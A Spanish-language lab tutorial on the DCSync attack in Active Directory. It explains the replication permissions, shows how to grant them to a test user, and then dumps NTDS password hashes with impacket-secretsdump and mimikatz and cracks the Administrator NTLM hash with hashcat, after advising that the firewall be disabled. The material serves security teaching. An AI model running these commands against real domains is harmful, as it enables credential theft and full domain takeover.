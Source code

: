 # DCSync

## ORIGEN DE EL DCSYNC

Para entender la vulnerabilidad DCSync primero debemos entender ¿Qué es MS-DRSR?. MS-DRSR (***Microsoft Domain Replication Service Remote***) es el protocolo utilizado en un entorno de Active Directory de replicación de la base de datos NTDS.

> *NTDS es el servicio que almacena información sobre usuarios, grupos, etc. incluyendo los hashes de las contraseñas de los usuarios.*
> 

Para que un DC (***Domain Controller***) repliquen la información de su base de datos NTDS en otro objeto de la red, por lo general un dominio, este objeto debe tener en las DACLs del dominio principal una ACE que indique que este objeto tendrá permisos de replicación, a estos permisos se les llama **DS-Replication-Get-Changes**, **DS-Replication-Get-Changes-In-Filtered-Set** y **DS-Replication-Get-Changes-All**. Con estos permisos aplicados a un objeto el Dominio compartirá la información de su base de datos NTDS para dicho objeto por medio al protocolo MS-DRSR.

Una vez entendiendo esto podemos comprender que si un usuario tuviera dichos permisos podría solicitar una petición para “replicar” la información de la base de datos NTDS y podría obtener los hashes de las contraseñas que más adelante podría crackear.

---

## PREPARACIÓN DEL ENTORNO

Para hacer que se produzca esta vulnerabilidad vamos a tomar un usuario cualquiera, sin importar si este tiene o no bajos privilegios, y vamos a darle los permisos de **DS-Replication-Get-Changes**, **DS-Replication-Get-Changes-In-Filtered-Set** y **DS-Replication-Get-Changes-All**.

Así que vamos a dirigirnos a nuestro ***Administrador del Servidor > Herramientas > Usuarios y equipos de Active Directory***, una vez allí en el menú lateral izquierdo hacemos click derecho sobre nuestro dominio y damos click sobre propiedades.

![Untitled](images/Untitled.png)

Una vez en las propiedades damos click donde dice ***Seguridad*** y luego en el boton de ***Agregar***.

![Untitled](images/Untitled%201.png)

En la nueva ventana emergente que se abre agregamos el objeto al que queremos darle los privilegios y damos click en ***Aceptar***.

![Untitled](images/Untitled%202.png)

Por último, seleccionamos nuestro usuario, le permitimos los siguientes permisos y aplicamos los cambios.

![Untitled](images/Untitled%203.png)

Con esto la vulnerabilidad está presente en la red del dominio.

---

## EXPLOTACIÓN

Si de alguna manera logramos vulnerar al usuario **daniele.ethelind** desde allí podríamos realizar la petición de la base de datos NTDS al Domain Controller y así dumpear toda la base de datos NTDS y obtener cualquier hash NTLM de cualquier usuario, incluyento de usuarios administradores.

### Desde Linux con `impacket` .

Usaremos el módulo **`*secretsdump*`** de **`*impacket`*** de la siguiente manera:

```bash
impacket-secretsdump -just-dc [domain]/[user]:[password]@[dc-ip]
```

**`*-just-dc*`** extrae los hashes NTLM y hashes de Kerberos del fichero NTDS.DIT. Luego indicamos el ***dominio***, el ***usuario***, la ***contraseña*** de dicho usuario y la ***IP de Domain Controller***. Un ejemplo de uso es el siguiente:

```bash
impacket-secretsdump -just-dc cisco.local/daniele.ethelind:D3thelind@192.168.56.136
```

El resultado es el siguiente:

![Untitled](images/Untitled%204.png)

### Desde Windows con `mimikatz` .

Si tenemos una máquina Windows agregada al dominio e iniciamos sesión con el usuario previamente vulnerado. Ahora solo nos dirigimos al navegador y pegamos el siguiente enlace [[https://github.com/ParrotSec/mimikatz/tree/master/x64](https://github.com/ParrotSec/mimikatz/tree/master/x64)] y nos descargamos el ***mimikatz.exe***.

![Untitled](images/Untitled%205.png)

> *Es probable que el Firewall detecte este binario como un software malisioso, por ende, es recomendable desactivarlo para fines didacticos.*
> 

Abrimos una powershell, nos dirigimos al directorio donde se descargó el binario y lo ejecutamos de la siguiente manera:

![Untitled](images/Untitled%206.png)

Se nos va a ejecutar una consola interactiva en la cual vamos a llamar al siguiente comando:

```bash
lsadump::dcsync /user:[DOMAIN]\[USER_TO_DUMP]
```

En mi caso:

```bash
lsadump::dcsync /user:cisco\Administrador
```

Y así obtuvimos el hash NTLM del usuario Administrador desde un usuario sin privilegios pero, con permisos para obtener una copia de la base de datos NTDS del dominio.

![Untitled](images/Untitled%207.png)

---

## CRACKEO DE LOS HASHES ENCONTRADOS

Como podemos ver ya podríamos guardar los hashes e intentar crackearlos de manera offline. En mi caso voy a mostrar como crackeo con **`*hashcat*`** el hash del usuario Administrador que es el primero que aparece en la imagen.

Primero vamos a introducir el hash en un archivo y con el siguiente comando vamos a crackear el hash.

```bash
hashcat -a 0 -m 1000 *HASH_FILE* *DICTIONARY_FILE -O*
```

En mi caso:

```bash
hashcat -a 0 -m 1000 admin.hash dictionary.txt -O
```

Y como resultado obtenemos la contraseña crackeada.

![Untitled](images/59aed1b1-350f-4061-ad53-63339af0636c.png)